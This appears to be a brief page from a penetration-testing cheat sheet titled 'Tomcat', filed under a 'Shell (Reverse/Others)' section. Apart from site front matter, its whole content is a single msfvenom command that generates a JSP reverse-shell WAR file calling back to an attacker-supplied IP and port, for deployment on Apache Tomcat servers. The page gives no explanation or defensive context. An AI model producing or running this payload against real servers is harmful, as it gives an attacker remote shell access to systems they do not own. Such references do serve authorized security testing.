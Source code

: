 ```yaml
---
title: Tomcat
parent: Shell (Reverse/Others)
layout: default
nav_order: 5
---
```


`msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o reverse.war`
